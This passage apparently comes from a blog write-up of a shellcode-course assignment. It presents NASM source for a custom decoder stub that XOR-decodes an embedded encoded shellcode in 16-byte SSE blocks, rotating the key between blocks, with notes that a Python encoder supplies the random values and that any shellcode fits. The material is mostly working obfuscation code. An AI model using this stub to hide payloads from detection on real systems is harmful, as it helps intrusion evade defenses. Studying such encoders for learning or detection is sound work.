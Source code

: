 ```nasm
    call got_keys

    ; the xorkey will be a random value, and will be replaced in the python script
    xorKey: db 0x71,0x6a,0xc9,0xfc,0xfe,0x1a,0xd1,0x09,0xb4,0x9c,0x2b,0x7f,0xce,0x75,0x8f,0xc4

move_on:
    jmp short get_shellcode

got_shellcode:    
    pop esi      ; now the shellcode address is loaded into esi
    mov edx,esi  ; we will update esi, so edx will save the start point

decode_loop:
    movdqu xmm0, [esi]  ; put the first block of encoded shellcode into xmm0

    pxor xmm0,xmm1  ; decode that next block
    movdqu [esi],xmm0

    ; check to see if that value in xmm0 is 0
    ; xmm3 contains all zeros
    ; so we can use vptest and jc
    ; vptest xmm3,xmm0 sets the CF if xmm0 AND NOT xmm3 is all zeros
    ; that is, since xmm3 is zero, not xmm3 is all 1s
    ; so xmm0 and not xmm3 will be all zeros if xmm0 is all zeros
    vptest xmm3,xmm0
    jnc rotate_key
    jmp edx

rotate_key:
    ; before we increment esi and loop, rol the key by shiftvalue bytes
    ; these shift values will be dynamically generated by the encoder script
    ; hard code for now
    movdqu xmm2,xmm1 ; copy so we can rotate the key
    pslldq xmm1, 0x9 ; rotate left by shift key  --> this will be replaced with the random value
    psrldq xmm2, 0x7 ; rotate right by remainder --> this will be replaced with the random value
    por xmm1,xmm2   ; OR together to get rotate left

    ; skip to the next block of encoded shellcode
    add esi, 0x10

    jmp short decode_loop

get_shellcode:
    call got_shellcode
    ; The following shellcode will be dynamically replaced in the python script
    shellcode: db 0x40,0xa3,0x3e,0x1d,0xcf,0xc1,0x61,0x0d,0x07,0x9d,0xc0,0x74,0x97,0xc7,0x82,0x09,0x89,0x04,0x9d,0x1a,0xa4,0x03,0xf5,0x67,0x34,0x8e,0x95,0x36,0xb4,0x9b,0x76,0xbd,0xe0,0xe4,0x06,0x05,0xbb,0x90,0x9a,0x3b,0xdb,0x09,0xb4,0x9c,0x2b,0x7f,0xce,0x75,0x1a,0xd1,0x09,0xb4,0x9c,0x2b,0x7f,0xce,0x75,0x8f,0xc4,0x71,0x6a,0xc9,0xfc,0xfe
```
And that's it. It took a surprisingly long time to implement given how relatively simple it is. However, I was quite happy with the end result. Now, I'll show how it works with a few different shellcodes, include the execve stack method that the assignment asks for. However, due to the way it is setup, it is easy to put any shellcode in it.
